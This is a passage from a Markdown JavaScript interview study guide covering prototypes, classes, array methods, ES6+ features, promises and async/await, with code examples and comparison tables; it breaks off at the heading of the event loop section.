dog.barks;    // true     — own property
dog.bark();   // 'woof'   — own method
dog.breathes; // true     — inherited from animal
dog.eat();    // 'eating' — found on prototype chain
dog.toString; // function — inherited from Object.prototype

Object.getPrototypeOf(dog) === animal; // true
```

**Constructor-function version:**

```js
function Animal(name) { this.name = name; }
Animal.prototype.breathe = function() { return "breathing"; };

const rex = new Animal("Rex");
rex.breathe();      // found on Animal.prototype
rex.toString();     // found on Object.prototype
rex.nonExistent;    // undefined (end of chain: null)
```

**Class syntax (syntactic sugar over prototypes):**

```js
class Animal {
  constructor(name) { this.name = name; }
  eat() { console.log(`${this.name} is eating`); }
}

class Dog extends Animal {
  bark() { console.log('woof'); }
}

const d = new Dog('Rex');
d.eat();  // works via prototype chain (Dog.prototype → Animal.prototype)
d.bark(); // own method on Dog.prototype
```



### 6.7 `prototype` vs `__proto__`

| | `prototype` | `__proto__` |
|-|-------------|-------------|
| Belongs to | Constructor functions (and classes) | All objects |
| Purpose | Template for instances | Points to actual prototype |
| When used | `Fn.prototype.method = ...` | Checking inheritance |

```js
function Car(brand) { this.brand = brand; }
Car.prototype.drive = function() { return `${this.brand} drives`; };

const c = new Car("BMW");
c.__proto__ === Car.prototype;              // true
Car.prototype.__proto__ === Object.prototype; // true
Object.prototype.__proto__ === null;        // true (end of chain)
```

> `__proto__` is legacy; prefer `Object.getPrototypeOf(obj)` and `Object.setPrototypeOf(obj, proto)`.

### 6.8 What `new` Does Internally

```js
function User(name) { this.name = name; }
const user = new User("Abhi");

// Internally, new does:
// 1. Creates empty object: obj = {}
// 2. Links prototype: obj.__proto__ = User.prototype
// 3. Executes constructor: User.call(obj, "Abhi")
// 4. Returns obj (if constructor returns primitive/nothing)
```

```js
// Implement `new` yourself
function myNew(Constructor, ...args) {
  const obj = Object.create(Constructor.prototype);
  const result = Constructor.apply(obj, args);
  return result !== null && typeof result === "object" ? result : obj;
}
```

### 6.9 Object.create(null) — Dictionary Objects

```js
// Regular object has prototype chain (toString, hasOwnProperty, etc.)
const obj = {};
"toString" in obj; // true — from prototype!

// Truly empty object — no prototype
const dict = Object.create(null);
"toString" in dict; // false
// Safe for user-controlled keys (no prototype pollution risk)
```

### 6.10 JSON Methods

```js
// Stringify with replacer & spacing
JSON.stringify({ name: "Abhi", fn: function(){} });
// {"name":"Abhi"} — functions omitted

JSON.stringify(obj, ["name", "age"]); // only include these keys
JSON.stringify(obj, null, 2);         // pretty print with 2-space indent

// Custom serialization
class User {
  toJSON() { return { id: this.id, name: this.name }; }
}

// Parse with reviver
JSON.parse(jsonStr, (key, value) => {
  if (key === "date") return new Date(value);
  return value;
});
```

**JSON traps:** `undefined`, functions and Symbols are dropped; `Date` becomes a string; `NaN`/`Infinity` become `null`; circular references throw; `BigInt` throws.

### 6.11 Shallow vs Deep Copy

**Shallow copy** copies only the top level — nested objects are still **shared references**.
**Deep copy** recursively copies everything — no shared references.

```js
const original = { name: 'Alice', address: { city: 'NYC' } };

// Shallow copy — nested objects are still shared references
const shallow = { ...original };
const shallow2 = Object.assign({}, original);
const arrCopy = [...arr];

shallow.address.city = 'LA';
console.log(original.address.city); // 'LA' — MUTATED! ❌

// Deep copy options
// 1. JSON (simple, but loses functions, Date, undefined, circular refs)
const deep1 = JSON.parse(JSON.stringify(original));

// 2. structuredClone (modern, recommended)
const deep2 = structuredClone(original);

deep2.address.city = 'Chicago';
console.log(original.address.city); // 'NYC' — safe ✅
```

| Method | Depth | Handles Date/Map/Set | Handles circular refs | Functions |
|---|---|---|---|---|
| `{...obj}` / `Object.assign` | Shallow | Copies reference | — | Copies reference |
| `JSON.parse(JSON.stringify())` | Deep | ❌ (Date → string, Map/Set → `{}`) | ❌ Throws | ❌ Dropped |
| `structuredClone()` | Deep | ✅ | ✅ | ❌ Throws `DataCloneError` |
| Custom `deepClone` | Deep | ✅ (if coded) | Only if you track visited | Configurable |

> `structuredClone` is a Web/Node platform API (browsers since 2022, Node 17+), not part of the ECMAScript spec itself.

**Deep clone without JSON (interview question):**

```js
function deepClone(obj) {
  if (obj === null || typeof obj !== "object") return obj;
  if (obj instanceof Date) return new Date(obj.getTime());
  if (obj instanceof Array) return obj.map(item => deepClone(item));
  if (obj instanceof Map) return new Map([...obj].map(([k,v]) => [deepClone(k), deepClone(v)]));
  if (obj instanceof Set) return new Set([...obj].map(v => deepClone(v)));

  const cloned = Object.create(Object.getPrototypeOf(obj));
  for (const key of Reflect.ownKeys(obj)) {
    cloned[key] = deepClone(obj[key]);
  }
  return cloned;
}
// Note: add a WeakMap of "already cloned" objects to support circular references.
```

---

## 7. Classes and OOP

### 7.1 ES6 Class Syntax

Classes are **syntactic sugar over prototypes** — methods live on `ClassName.prototype`.

```js
class Animal {
  #name;          // private field (ES2022)
  #sound;

  constructor(name, sound) {
    this.#name = name;
    this.#sound = sound;
    this.species = "Unknown"; // public
  }

  speak() {
    return `${this.#name} says ${this.#sound}`;
  }

  get name() { return this.#name; }
  set name(v) {
    if (typeof v !== "string") throw new TypeError("Name must be string");
    this.#name = v;
  }

  static create(name, sound) {
    return new Animal(name, sound);
  }

  toString() { return `Animal(${this.#name})`; }
}

const cat = new Animal("Tom", "meow");
cat.speak(); // "Tom says meow"
Animal.create("Jerry", "squeak").speak();
```

### 7.2 Inheritance

```js
class Dog extends Animal {
  #tricks = [];

  constructor(name) {
    super(name, "woof"); // must call super() first, before using `this`
  }

  learn(trick) {
    this.#tricks.push(trick);
    return this;
  }

  perform() {
    return this.#tricks.map(t => `${this.name} performs ${t}`);
  }

  speak() {
    return super.speak() + "!"; // call parent method
  }
}

const rex = new Dog("Rex");
rex.learn("sit").learn("fetch");
rex.perform(); // ["Rex performs sit", "Rex performs fetch"]
rex instanceof Dog;    // true
rex instanceof Animal; // true
```

### 7.3 Class Features Summary

```js
class MyClass {
  // Public instance field
  publicField = "public";

  // Private instance field
  #privateField = "private";

  // Static public field
  static staticField = "static";

  // Static private field
  static #staticPrivate = "private static";

  constructor(value) {
    this.value = value;
  }

  // Instance method
  instanceMethod() { return this.value; }

  // Static method
  static staticMethod() { return MyClass.staticField; }

  // Getters/Setters
  get doubled() { return this.value * 2; }
  set doubled(v) { this.value = v / 2; }

  // Private method
  #privateMethod() { return this.#privateField; }

  // Static initializer block (ES2022)
  static {
    this.staticField = "initialized";
  }
}
```

### 7.4 Mixins (Multiple Inheritance Workaround)

JS supports only single inheritance; mixins compose behavior from multiple sources.

```js
const Serializable = (Base) => class extends Base {
  serialize() { return JSON.stringify(this); }
  static deserialize(json) { return Object.assign(new this(), JSON.parse(json)); }
};

const Timestamped = (Base) => class extends Base {
  constructor(...args) {
    super(...args);
    this.createdAt = new Date();
  }
};

class User extends Timestamped(Serializable(class {})) {
  constructor(name) { super(); this.name = name; }
}

const u = new User("Abhi");
u.createdAt;   // Date object
u.serialize(); // JSON string
```

**Interview traps:**
- Class declarations are hoisted but in the **TDZ** — you can't use them before the line they're declared.
- Class methods are **not auto-bound** — passing `obj.method` as a callback loses `this`.
- `#private` fields are truly private (not accessible even via `obj["#x"]`); `_underscore` is only a naming convention.

---

## 8. Arrays and Iteration

### 8.1 Array Methods Cheatsheet

**Mutating (modify original):**

```js
arr.push(x)        // add to end, returns new length
arr.pop()          // remove from end, returns element
arr.unshift(x)     // add to start, returns new length
arr.shift()        // remove from start, returns element
arr.splice(i,n,x)  // remove/insert at index
arr.sort(fn)       // sort in place
arr.reverse()      // reverse in place
arr.fill(v,s,e)    // fill values
```

**Non-mutating (return new array/value):**

```js
arr.map(fn)         // transform each → new array, same length
arr.filter(fn)      // keep matching → new array, same/shorter
arr.reduce(fn, init)// aggregate → single value
arr.find(fn)        // first match or undefined
arr.findIndex(fn)   // first match index or -1
arr.every(fn)       // all match? → boolean
arr.some(fn)        // any match? → boolean
arr.includes(v)     // contains value? → boolean
arr.indexOf(v)      // first index of value, or -1
arr.flat(depth)     // flatten nested arrays
arr.flatMap(fn)     // map + flatten one level
arr.slice(s,e)      // copy portion
arr.concat(arr2)    // join arrays
arr.join(sep)       // array → string
Array.from(x)       // convert iterable / array-like to array
Array.isArray(x)    // check if array
```

> **ES2023 non-mutating versions:** `toSorted()`, `toReversed()`, `toSpliced()`, `with(index, value)` — useful in React where you must not mutate state.

### 8.2 map vs filter vs reduce (with Real Data)

```js
const numbers = [1, 2, 3, 4, 5];
const users = [
  { id: 1, name: 'Alice', age: 25, active: true },
  { id: 2, name: 'Bob',   age: 17, active: false },
  { id: 3, name: 'Carol', age: 30, active: true },
];

// map — transform each element, returns new array (same length)
const doubled = numbers.map(n => n * 2);          // [2,4,6,8,10]
const names = users.map(u => u.name);             // ['Alice','Bob','Carol']

// filter — keep elements that pass the test (same/shorter)
const adults = users.filter(u => u.age >= 18);   // Alice, Carol
const evens = numbers.filter(n => n % 2 === 0);  // [2, 4]

// reduce — accumulate (fold) into a single value
const sum = numbers.reduce((acc, n) => acc + n, 0); // 15
const nameMap = users.reduce((acc, u) => {
  acc[u.id] = u.name;
  return acc;
}, {}); // { 1: 'Alice', 2: 'Bob', 3: 'Carol' }

// find — first match (returns element or undefined)
const bob = users.find(u => u.name === 'Bob');

// findIndex — first match index
const idx = users.findIndex(u => u.id === 2); // 1

// some — at least one passes
const hasMinors = users.some(u => u.age < 18); // true

// every — all pass
const allActive = users.every(u => u.active); // false

// flat / flatMap
const nested = [[1, 2], [3, 4]];
nested.flat();                          // [1,2,3,4]
nested.flatMap(arr => arr.map(n => n * 2)); // [2,4,6,8]

// Chaining
numbers
  .filter(x => x > 2)
  .map(x => x * 10)
  .reduce((a, b) => a + b, 0); // 120
```

### 8.3 sort — Always Use a Comparator

```js
// sort (mutates!) — always provide comparator for numbers
const sorted = [...numbers].sort((a, b) => b - a); // [5,4,3,2,1]
const byAge = [...users].sort((a, b) => a.age - b.age);

// Trap: default sort compares as STRINGS
[10, 1, 2].sort(); // [1, 10, 2] ❌
```

### 8.4 slice vs splice

```js
const arr = [1, 2, 3, 4, 5];

// slice — non-destructive, returns copy
arr.slice(1, 3);    // [2, 3] — original unchanged
arr.slice(-2);      // [4, 5] — negative from end

// splice — DESTRUCTIVE, modifies original
arr.splice(1, 2);       // removes 2 items at index 1, returns [2,3]
arr.splice(1, 0, 99);   // inserts 99 at index 1, removes 0
arr.splice(1, 1, 99);   // replaces item at index 1 with 99
```

| | `slice` | `splice` |
|---|---|---|
| Mutates original | ❌ | ✅ |
| Returns | New array (portion) | Array of removed items |
| Use | Copy / extract | Insert / remove / replace |

### 8.5 for...in vs for...of

```js
const arr = [10, 20, 30];
const obj = { a: 1, b: 2 };

// for...in — iterates over KEYS (indices for arrays, keys for objects)
for (let key in arr) { console.log(key); }  // "0", "1", "2" (strings!)
for (let key in obj) { console.log(key); }  // "a", "b"

// for...of — iterates over VALUES (works on iterables: array, string, Map, Set)
for (let val of arr) { console.log(val); }  // 10, 20, 30
// for (let val of obj) {} // ❌ TypeError — objects are not iterable
for (let [k, v] of Object.entries(obj)) {} // ✅ iterate object entries
```

> `for...in` also walks **inherited enumerable** properties — avoid it for arrays.

### 8.6 Destructuring

```js
// Array destructuring
const [a, b, c = 3] = [1, 2];
const [first, second, ...rest] = [1, 2, 3, 4, 5]; // first=1, second=2, rest=[3,4,5]
const [, second2] = [1, 2];              // skip first element

// Swap variables
let x = 1, y = 2;
[x, y] = [y, x];

// Object destructuring
const { name, age = 25 } = { name: "Abhi" };     // default value
const { name: n } = { name: "Abhi" };            // rename to n
const { a: { b: deepVal } } = { a: { b: 99 } };  // nested
const { address: { street } } = { address: { street: '123 Main St' } };

// Function parameter destructuring
function greet({ name, role = "user" }) {
  return `${name} is a ${role}`;
}
greet({ name: "Abhi", role: "admin" });
```

**Trap:** Destructuring `null`/`undefined` throws — `const { a } = null; // TypeError`. Use a default: `function f({ a } = {}) {}`.

### 8.7 Array-like Objects

```js
// Has length and indexed access, but not Array methods
const arrayLike = { 0: "a", 1: "b", length: 2 };

// Convert to real array
Array.from(arrayLike);     // ["a", "b"]
[...arrayLike];            // ❌ TypeError (not iterable)
Array.prototype.slice.call(arrayLike); // ["a", "b"]

// Common array-likes: arguments, NodeList, HTMLCollection, strings
```

---

## 9. ES6+ Modern JavaScript

### 9.1 Template Literals

```js
const name = "Abhi";
const age = 27;

// Multi-line
const msg = `Hello ${name},
you are ${age} years old.`;

// Expression evaluation
`${2 + 2}`         // "4"
`${age > 18 ? "adult" : "minor"}`

// Tagged templates
function highlight(strings, ...vals) {
  return strings.reduce((acc, str, i) =>
    acc + str + (vals[i] ? `<b>${vals[i]}</b>` : ""), "");
}
highlight`Hello ${name}, you are ${age}`;
```

### 9.2 Optional Chaining (?.)

Short-circuits to `undefined` instead of throwing when something in the chain is `null`/`undefined`.

```js
const user = { profile: { address: { city: "Bangalore" }, name: 'Alice' } };

// Without optional chaining (verbose)
user && user.profile && user.profile.address && user.profile.address.city;

// With optional chaining
user?.profile?.address?.city;         // "Bangalore" or undefined
user?.settings?.theme;                // undefined (no error)
user?.friends?.length;                // undefined
user?.friends?.[0];                   // undefined — safe array access
user?.greet?.();                      // call method only if it exists
user?.getAge?.();                     // undefined (safe method call)
```

### 9.3 Nullish Coalescing (??)

Introduced in ES2020. Provides a default value **only when the value is `null` or `undefined`**.

```js
// ?? returns right side only if left is null or undefined
null ?? "default"      // "default"
undefined ?? "default" // "default"
0 ?? "default"         // 0    ← 0 is not null/undefined!
"" ?? "default"        // ""   ← empty string is not null/undefined!
false ?? "default"     // false

// vs || which returns right side for any falsy value
0 || "default"         // "default"  ← 0 is falsy
"" || "default"        // "default"  ← "" is falsy

// Combined with optional chaining
const displayName = user?.name ?? 'Anonymous';
```

| Operator | Falls back when left is… | Example `0 ?/|| 'x'` |
|---|---|---|
| `\|\|` | any **falsy** value | `'x'` |
| `??` | only `null` / `undefined` | `0` |

> **Trap:** You can't mix `??` with `||`/`&&` without parentheses — `a || b ?? c` is a SyntaxError.

### 9.4 Logical Assignment Operators (ES2021)

```js
let a = null;
let b = 0;
let c = "hello";

a ??= "default";  // a = "default"  (assigns if null/undefined)
b ||= "fallback"; // b = "fallback" (assigns if falsy)
c &&= "world";    // c = "world"    (assigns if truthy)
```

### 9.5 Short-Circuit Evaluation

```js
// && returns first falsy or last value
false && console.log("never"); // false
true && "result";               // "result"
null && fn();                   // null (fn not called)

// || returns first truthy or last value
null || "default";              // "default"
"value" || "default";           // "value"

// Practical use
const value = input || "default";
user && user.isAdmin && showAdminPanel();

// Output predictions
console.log(null || undefined || 0 || "" || "found!"); // "found!"
console.log(1 && 2 && 3);  // 3
console.log(1 && 0 && 3);  // 0
```

### 9.6 Symbols

```js
const id = Symbol("id");          // unique identifier
const id2 = Symbol("id");
id === id2; // false — every Symbol is unique

// As object keys (hidden from Object.keys)
const obj = { [id]: 123, name: "Abhi" };
Object.keys(obj);   // ["name"] — Symbol not included
obj[id];            // 123

// Global symbol registry
const s1 = Symbol.for("shared");
const s2 = Symbol.for("shared");
s1 === s2; // true — shared registry

// Well-known symbols
class MyArray {
  [Symbol.iterator]() { /* custom iteration */ }
}
```

### 9.7 Map and Set

```js
// Map — key-value pairs, any type as key
const map = new Map();
map.set("name", "Abhi");
map.set(42, "number key");
map.set(obj, "object key");

map.get("name");    // "Abhi"
map.has("name");    // true
map.size;           // 3
map.delete("name");
map.clear();

for (let [key, val] of map) {}

// Set — unique values only
const set = new Set([1, 2, 2, 3, 3]); // Set {1, 2, 3}
set.add(4);
set.has(2);     // true
set.delete(2);
set.size;       // 3

// Array deduplication using Set
const unique = [...new Set([1,1,2,2,3])]; // [1,2,3]
```

| | Object | Map |
|---|---|---|
| Key types | Strings & Symbols | **Any** type (objects, functions, numbers) |
| Order | Mostly insertion (integer keys first) | Strict insertion order |
| Size | `Object.keys(o).length` | `map.size` |
| Iterable | ❌ (need `Object.entries`) | ✅ |
| Prototype keys risk | Yes (`__proto__`) | No |
| Frequent add/delete | Slower | Optimized |

### 9.8 WeakMap, WeakSet and WeakRef

These hold **weak references** — they don't prevent garbage collection.

```js
// WeakMap — object keys only, weakly held (allows GC)
const wm = new WeakMap();
let obj = {};
wm.set(obj, "data");
obj = null; // 'data' can now be garbage collected

// WeakSet — object values only, weakly held
const ws = new WeakSet();
ws.add(someObj);

// Key differences from Map/Set:
// - Keys/values must be objects
// - NOT iterable (no .size, no forEach)
// - Keys are weakly referenced → GC can collect them
```

**Caching per object (WeakMap):**

```js
const cache = new WeakMap();

function processUser(user) {
  if (cache.has(user)) return cache.get(user);
  const result = expensiveComputation(user);
  cache.set(user, result);
  return result;
}
// When `user` object is garbage collected, cache entry is automatically removed
```

**Process each object once (WeakSet):**

```js
const seen = new WeakSet();
function processOnce(obj) {
  if (seen.has(obj)) return;
  seen.add(obj);
  process(obj);
}
```

**WeakRef (ES2021)** — holds a weak reference to a single object; `deref()` returns the object or `undefined` if it was collected.

```js
let bigObject = { data: new Array(1e6) };
const ref = new WeakRef(bigObject);
bigObject = null;
// Later...
const maybe = ref.deref(); // object, or undefined if GC'd
```

**Use cases:** tracking DOM nodes, private data per object, caching without preventing GC. Memory-safe patterns are covered in [16.3](#163-weakmap-and-weakset-for-memory-safe-patterns).

### 9.9 Iterators and the Iteration Protocol

An object is **iterable** if it has a `[Symbol.iterator]()` method that returns an **iterator** — an object with a `next()` method returning `{ value, done }`.

```js
// Custom iterable object
const range = {
  from: 1,
  to: 5,
  [Symbol.iterator]() {
    let current = this.from;
    const last = this.to;
    return {
      next() {
        return current <= last
          ? { value: current++, done: false }
          : { value: undefined, done: true };
      }
    };
  }
};

for (let num of range) { console.log(num); } // 1 2 3 4 5
[...range]; // [1, 2, 3, 4, 5]
```

**Iterables & spread:**

```js
// Anything with [Symbol.iterator] is iterable
// String, Array, Map, Set, arguments, NodeList, generators...

[..."hello"]; // ["h","e","l","l","o"]
new Set([..."hello"]); // Set {"h","e","l","o"}

// Compact custom iterable factory
const rangeOf = (from, to) => ({
  [Symbol.iterator]() {
    let i = from;
    return { next: () => i <= to ? { value: i++, done: false } : { done: true } };
  }
});

[...rangeOf(1, 5)]; // [1,2,3,4,5]
```

### 9.10 Generators

**Simple definition:** A generator (`function*`) is a function that can **pause** (`yield`) and **resume** later. Calling it returns an iterator.

```js
function* counter(start = 0) {
  while (true) {
    yield start++;   // pause here, return value
  }
}

const gen = counter(1);
gen.next(); // { value: 1, done: false }
gen.next(); // { value: 2, done: false }
gen.next().value; // 3

// Finite generator (end exclusive)
function* range(start, end) {
  for (let i = start; i < end; i++) yield i;
}
[...range(1, 5)]; // [1, 2, 3, 4]

// Finite generator (end inclusive) with for...of
function* rangeInclusive(start, end) {
  for (let i = start; i <= end; i++) {
    yield i;
  }
}
for (const num of rangeInclusive(1, 5)) {
  console.log(num); // 1, 2, 3, 4, 5
}

// Generator with return
function* withReturn() {
  yield 1;
  return "done";
  yield 2; // never reached
}
const g = withReturn();
g.next(); // { value: 1, done: false }
g.next(); // { value: "done", done: true }
g.next(); // { value: undefined, done: true }

// Practical: lazy data pagination
function* paginate(data, pageSize) {
  for (let i = 0; i < data.length; i += pageSize) {
    yield data.slice(i, i + pageSize);
  }
}
```

**Use cases:** lazy/infinite sequences, pagination, custom iterators, (historically) async flow control (redux-saga).

### 9.11 Proxy and Reflect

```js
// Proxy — intercept object operations
const user = { name: "Abhi", age: 27 };
const proxy = new Proxy(user, {
  get(target, prop) {
    console.log(`Getting ${prop}`);
    return Reflect.get(target, prop);
  },
  set(target, prop, value) {
    if (prop === "age" && typeof value !== "number")
      throw new TypeError("Age must be a number");
    return Reflect.set(target, prop, value);
  },
  has(target, prop) {
    return prop in target;
  }
});

proxy.name;        // "Getting name" → "Abhi"
proxy.age = "old"; // TypeError!

// Reflect — standardized way to perform object operations
Reflect.get(obj, "name");
Reflect.set(obj, "name", "Sunny");
Reflect.deleteProperty(obj, "name");
Reflect.ownKeys(obj); // includes symbols
```

**Real-world use:** validation, logging, reactivity systems (Vue 3, MobX), API mocking. See also the [Proxy pattern](#156-proxy-pattern-validation-logging).

### 9.12 Optional Catch Binding (ES2019)

```js
// Before
try {} catch (err) { /* must accept err even if unused */ }

// Now — can omit if not needed
try {
  JSON.parse(text);
} catch {
  console.log("Invalid JSON");
}
```

### 9.13 Regular Expressions

```js
// Literal syntax
const re = /pattern/flags;

// Constructor (for dynamic patterns)
const re2 = new RegExp("pattern", "flags");

// Flags
// g — global (find all matches)
// i — case insensitive
// m — multiline (^ and $ match line boundaries)
// s — dotAll (. matches \n)
// u — unicode
// y — sticky (match at lastIndex only)

// Test
/^\d+$/.test("123");  // true
/^\d+$/.test("abc");  // false

// Match
"hello world".match(/\w+/g);    // ["hello", "world"]
"hello world".matchAll(/\w+/g); // iterator of all matches with groups

// Replace
"hello".replace(/l/g, "r");         // "herro"
"2024-01-15".replace(/(\d{4})-(\d{2})-(\d{2})/, "$3/$2/$1"); // "15/01/2024"

// Split
"a,b,,c".split(/,+/); // ["a", "b", "c"]

// Named capture groups
const { year, month, day } = "2024-01-15".match(
  /(?<year>\d{4})-(?<month>\d{2})-(?<day>\d{2})/
).groups;
```

> **Trap:** A regex with the `g` flag is **stateful** (`lastIndex`) — calling `.test()` repeatedly on the same regex can alternate `true`/`false`.

---

## 10. Asynchronous JavaScript and Promises

**Why it matters:** JS has a single thread. Anything slow (network, timers, file I/O) must be asynchronous, or the whole page freezes. The evolution is **Callbacks → Promises → async/await**.

### 10.1 Callbacks

A function passed to another function to be executed later.

```js
function fetchData(id, callback) {
  setTimeout(() => {
    if (id > 0) callback(null, { id, name: "Abhi" });
    else callback(new Error("Invalid ID"), null);
  }, 1000);
}

fetchData(1, (err, data) => {
  if (err) return console.error(err);
  console.log(data);
});
```

**Callback Hell (Pyramid of Doom):**

```js
getUser(id, (user) => {
  getPosts(user.id, (posts) => {
    getComments(posts[0].id, (comments) => {
      getAuthor(comments[0].authorId, (author) => {
        console.log(author); // deeply nested, hard to handle errors
      });
    });
  });
});
```

Problems: hard to read, error handling repeated at every level, **inversion of control** (you trust the library to call your callback exactly once).

### 10.2 Promises

**Simple definition:** A Promise is an object representing a **future value** — an operation that will either succeed (resolve) or fail (reject).

```js
const promise = new Promise((resolve, reject) => {
  const success = true;
  if (success) resolve("Data!");
  else reject(new Error("Failed!"));
});

promise
  .then(data => console.log(data))
  .catch(err => console.error(err))
  .finally(() => console.log("Always runs"));
```

```js
// Promise-returning function + chaining
const fetchUser = (id) => new Promise((resolve, reject) => {
  setTimeout(() => {
    if (id > 0) resolve({ id, name: 'Alice' });
    else reject(new Error('Invalid ID'));
  }, 1000);
});

fetchUser(1)
  .then(user => user.name)
  .then(name => console.log(name))
  .catch(err => console.error(err))
  .finally(() => console.log('Done'));
```

**Promise states:**

| State | Description |
|-------|-------------|
| `pending` | Initial — operation in progress |
| `fulfilled` | `resolve()` was called |
| `rejected` | `reject()` was called |
| `settled` | Either fulfilled or rejected (terminal state) |

**Promise lifecycle:**



**How it works internally:**
- The executor function runs **synchronously** inside `new Promise(...)`.
- `.then()` callbacks are never run immediately — they are queued as **microtasks** once the promise settles (see [Section 11](#11-event-loop-microtasks-and-macrotasks)).
- Each `.then()` returns a **new promise**, which is what makes chaining work. Returning a value passes it down; returning a promise waits for it; throwing rejects.

**Promise chaining:**

```js
fetch("/api/user")
  .then(res => {
    if (!res.ok) throw new Error("HTTP Error: " + res.status);
    return res.json();
  })
  .then(user => fetch(`/api/posts?userId=${user.id}`))
  .then(res => res.json())
  .then(posts => console.log(posts))
  .catch(err => console.error("Error:", err)); // catches ALL errors above
```

### 10.3 Promise Combinators

```js
const p1 = fetch("/api/a");
const p2 = fetch("/api/b");
const p3 = fetch("/api/c");

// Promise.all — all must succeed; rejects (fails fast) if any fails
Promise.all([p1, p2, p3])
  .then(([a, b, c]) => {})
  .catch(err => {}); // first rejection triggers catch
const [user, posts] = await Promise.all([fetchUser(1), fetchPosts(1)]);

// Promise.allSettled — waits for all, never rejects
Promise.allSettled([p1, p2, p3])
  .then(results => {
    results.forEach(r => {
      if (r.status === "fulfilled") console.log(r.value);
      else console.error(r.reason);
    });
  });
// results = [{ status: 'fulfilled', value: ... }, { status: 'rejected', reason: ... }]

// Promise.race — first SETTLED (fulfilled OR rejected) wins
Promise.race([p1, p2, p3]).then(first => {});
const first = await Promise.race([fast, slow]);

// Promise.any — first FULFILLED wins (ignores rejections); rejects only if ALL fail
Promise.any([p1, p2, p3])
  .then(first => {})
  .catch(aggregateError => {}); // AggregateError if all fail
```

| Method | Resolves when | Rejects when | Typical use |
|---|---|---|---|
| `Promise.all` | **All** fulfill | **Any** rejects (fail fast) | Parallel requests that all must succeed |
| `Promise.allSettled` | All settle | Never | Show partial results, batch jobs |
| `Promise.race` | First settles (fulfilled) | First settles (rejected) | Timeouts |
| `Promise.any` | First fulfills | All reject (`AggregateError`) | Fastest mirror/CDN |

**Timeout with `Promise.race`:**

```js
const timeout = (ms) => new Promise((_, reject) =>
  setTimeout(() => reject(new Error("Timeout")), ms));

await Promise.race([fetch("/api/slow"), timeout(5000)]);
```

**Implement `Promise.all` from scratch (popular interview question):**

```js
function myPromiseAll(promises) {
  return new Promise((resolve, reject) => {
    const results = [];
    let completed = 0;

    if (promises.length === 0) return resolve([]);

    promises.forEach((promise, index) => {
      Promise.resolve(promise)
        .then(value => {
          results[index] = value;           // keep original order
          if (++completed === promises.length) resolve(results);
        })
        .catch(reject);                     // fail fast
    });
  });
}
```

### 10.4 Async / Await

**Simple definition:** Syntactic sugar over Promises — makes async code look synchronous. An `async` function **always returns a promise**; `await` pauses the function until the promise settles.

```js
async function fetchUserData(userId) {
  try {
    const res = await fetch(`/api/users/${userId}`);
    if (!res.ok) throw new Error(`HTTP ${res.status}`);
    const user = await res.json();
    return user;
  } catch (err) {
    console.error("Failed:", err);
    throw err; // re-throw if needed
  } finally {
    console.log("Request complete");
  }
}
```

**Sequential vs Parallel:**

```js
// ❌ Sequential — each awaits before starting next (slow — e.g. 2 seconds total)
const user  = await fetchUser();
const posts = await fetchPosts();  // only starts after user fetches

// ✅ Parallel — both start simultaneously (fast — e.g. 1 second total)
const [user, posts] = await Promise.all([fetchUser(), fetchPosts()]);
```

> Use sequential only when the second call **depends on** the first one's result.

**Async with loops:**

```js
// forEach doesn't work with async — it doesn't await
arr.forEach(async (item) => {
  await doSomething(item); // NOT awaited!
});

// Use for...of instead
for (const item of arr) {
  await doSomething(item); // properly sequential
}

// Or map + Promise.all for parallel
const results = await Promise.all(arr.map(item => doSomething(item)));
```

### 10.5 Async Iterators

```js
async function* fetchPages(url) {
  let page = 1;
  while (true) {
    const res = await fetch(`${url}?page=${page}`);
    const data = await res.json();
    if (!data.length) return;
    yield data;
    page++;
  }
}

for await (const page of fetchPages("/api/data")) {
  console.log(page);
}
```

### 10.6 Callbacks vs Promises vs async/await

| | Callbacks | Promises | async/await |
|---|---|---|---|
| Readability | Poor when nested | Good (chaining) | Best (looks synchronous) |
| Error handling | Manual at every level | One `.catch()` | `try/catch` |
| Parallelism | Manual | `Promise.all` | `await Promise.all` |
| Composability | Low | High | High |

**Interview traps:**
- Forgetting `await` → you get a `Promise` object, not the value.
- `return await` inside `try` is needed if you want `catch` to handle the rejection.
- `fetch` does **not** reject on HTTP 404/500 — only on network failure. Always check `res.ok`.
- Unhandled rejections crash Node processes (Node 15+).

---

## 11. Event Loop, Microtasks and Macrotasks

> This is the **most important JS concept for interviews**. Understand it deeply.

### 11.1 The Big Picture

